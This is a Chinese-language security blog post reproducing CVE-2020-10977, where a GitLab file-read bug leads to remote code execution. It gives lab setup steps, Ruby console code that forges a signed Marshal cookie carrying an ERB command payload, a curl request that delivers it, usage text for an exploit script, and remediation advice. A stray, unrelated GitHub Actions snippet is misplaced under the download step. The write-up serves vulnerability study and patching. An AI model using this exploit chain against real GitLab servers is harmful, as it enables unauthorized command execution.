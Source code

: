 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞导致的RCE
toc: true
wrench: 2022-10-21
permalink: /about/GitLab-CVE-2020-10977-RCE/
author: Bin4xin
desc: 「Gitlab」
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png](https://image.yjs2635.xyz/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

### 零、概述

由[GitLab CVE-2020-10977 任意文件读取漏洞](/about/GitLab-CVE-2020-10977/)导致的RCE

### 0x01、影响版本

暂未可知；

通过作者在Hackerone的报告显示测试环境是：

```
GitLab information
Version: 12.8.7-ee
Revision: 2643fd87200
```

并且通过Gitlab官方的反馈是：

- Your finding has been patched in GitLab version 12.9.1

或许结合漏洞来源，一个可参考的说法是：

> GitLab GitLab CE/EE >=8.5 and < 12.9
>
> GitLab GitLab CE >=8.5，< 12.9

### 0x02、环境搭建

- 服务/受害端

```bash
$ docker run -it gitlab/gitlab-ee:{version.label} bash
```

或者yum安装；我这里的本地环境是选择与报告者 [@vakzz](https://hackerone.com/reports/827052) 一样的版本

- GitLab information
  - Version: 12.8.7-ee
  - Revision: 2643fd87200
  - Directory: /opt/gitlab/embedded/service/gitlab-rails
  - DB Adapter: PostgreSQL

<div class="content">
<p>
<a href="https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm" class="btn-primary btn btn-block color-border-accent-emphasis" target="blank">
点击以下载 GitLab Ver 12.8.7-ee</a>
</p>
</div>

或者使用下面的命令下载：

```yml
on:
  push:
    branches:
      - main
      - 'releases/**'
```

```bash
wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm
```

安装
```bash
yum -y install ./gitlab......12_8.7.rpm
```

> *TIPS:*
> 
> 1.`gitlab-ctl restart`后访问Gitlab返回502，再运行`gitlab-ctl reconfigure`即可。
>
> 2.`gitlab-ctl reconfigure`如果报错`No such file or directory`，运行以下命令

```bash
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.sem.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.shmall.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-net.core.somaxconn.conf
```

### 0x03、复现

- 攻击端：

先pull镜像，方便用`console`生成反序列化Cookie

```bash
docker pull gitlab/gitlab-ee:12.8.1-ee.0
```

进入console
```bash
$ /opt/gitlab/embedded/bin/runsvdir-start &
$ gitlab-ctl reconfigure
$ vi /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# 替换secret_key_base为服务/受害端的secret_key_base
$ gitlab-rails console
```

> 需要注意的是，修改配置yml文件后，就不需要reconfigure了，不然生成新的secret_key_base会覆盖修改的。

- `gitlab-rails console` 攻击代码

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
```

```ruby
request.env["action_dispatch.cookies_serializer"] = :marshal
```

```ruby
cookies = request.cookie_jar
```

```ruby
erb = ERB.new("<%= `echo from CVE-2020-10977 > /tmp/flags` %>")
```

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
```

```ruby
cookies.signed[:cookie] = depr
```

```ruby
puts cookies[:cookie]
```

访问：

```bash
$ curl -k -vvv 'https://git-lab-domain.com/users/sign_in' -b "experimentation_subject_id={cookies[:cookie]}"
```

当然，我们也编写了相关的EXP供查阅，权当抛砖引玉；

[Bigger-than-Bigger::CoVV/Gitlab/CVE-2020-10977::cookie_generater.sh](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Gitlab/CVE-2020-10977){:target="_blank"}

```console

    C(ollection) O(f) V(erified) V(ulnerabilities) : cookie_generater.sh in
    https://github.com/Bin4xin/bigger-than-bigger
    Author: bin4xin <bin4xin@sentrylab.cn>
    Bash scripts to generate cookies out of [gitlab-rails console].
    (RCE due to CVE-2020-10977 <local file read>) visit https://hackerone.com/reports/827052
     _     _                             _    _                      _     _
    | |__ (_) __ _  __ _  ___  _ _  ___ | |_ | |_   __ _  _ _   ___ | |__ (_) __ _  __ _  ___  _ _
    | '_ \| |/ _\ |/ _\ |/ -_)| '_||___||  _|| ' \ / _| || ' \ |___|| '_ \| |/ _\ |/ _\ |/ -_)| '_|
    |_.__/|_|\__, |\__, |\___||_|        \__||_||_|\__,_||_||_|     |_.__/|_|\__, |\__, |\___||_|
             |___/ |___/                                                     |___/ |___/

    USAGE: bash cookie_generater.sh command [$command] [$url]
    SUCH AS: bash cookie_generater.sh [cmd|--cmd|-c] "touch /tmp/success" 8.8.8.8
    [help|--help|-h]: 	 	 print help message. 打印帮助信息
    [cmd|--cmd|-c]: 	 	 generate cookies mode. 生成COOKIE
    [$command]: 	 	 command you want to execute. 要执行的命令
    [$url]: 	 	 gitlab vuln url (unnecessary). gitlab地址，非必要
```

有兴趣可以点击链接查看，欢迎斧正。

### 一、思考

### 1x01、代码分析

```ruby
# /opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb
# Be sure to restart your server when you modify this file.

Rails.application.config.action_dispatch.use_cookies_with_metadata = false
Rails.application.config.action_dispatch.cookies_serializer = :hybrid
```

作者提到`cookies_serializer.rb`中默认的`cookies_serializer = :hybrid`导致了RCE；

> 多说一句，插入Cookie这个利用方式和Shiro反序列化WEB利用方式有点像(o_O)

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

{% include wrench-inject.html %}

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [Github 404::~~CVE-2020-10977 Gitlab任意文件读取导致远程命令执行~~](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}
